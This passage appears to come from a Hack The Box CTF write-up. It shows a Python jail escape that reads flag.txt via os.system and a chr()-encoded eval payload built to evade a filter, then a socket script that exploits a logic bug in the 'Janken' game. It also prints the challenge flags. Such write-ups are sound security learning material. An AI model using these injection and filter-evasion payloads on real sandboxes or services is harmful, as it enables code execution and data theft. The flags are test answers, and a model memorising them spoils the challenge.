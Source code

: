 ```
__import__('os').system('cat flag.txt')                                                                                                
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}
```

### Converting to ascii
1)
In this case, we used `int(open("flag.txt", "r").read())` to get the flag, but any command could be used. We need to encapsulate this command with `int()` to provoke an error as this allows us to view the flag
convert the command to read the file to ascii 
convert.py:
```
command = 'int(open("flag.txt", "r").read())'
output = ''
for i in range(len(command)):
    output += 'chr(' + str(ord(command[i])) + ')+'
print(output)
```

2)
run `eval` with the converted char string
```
>eval(chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(44)+chr(32)+chr(39)+chr(114)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41))
[*] Input accepted!
Error: invalid literal for int() with base 10: 'HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}\n'
```
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}

## Misc - Janken

There is a logic bug in the code, submitting "rockpaperscissors" will always pass.

```python
from socket import socket

def sendInput(input):
    sock.send(input.encode())
    return sock.recv(1024).decode()

output = ''
sock = socket()
sock.connect(('167.99.86.8', 30479))
#start the game
sendInput('1')
#submitting "rockpaperscissors" each round
for i in range(100):
    output = sendInput('rockpaperscissors')
    print(output)
```

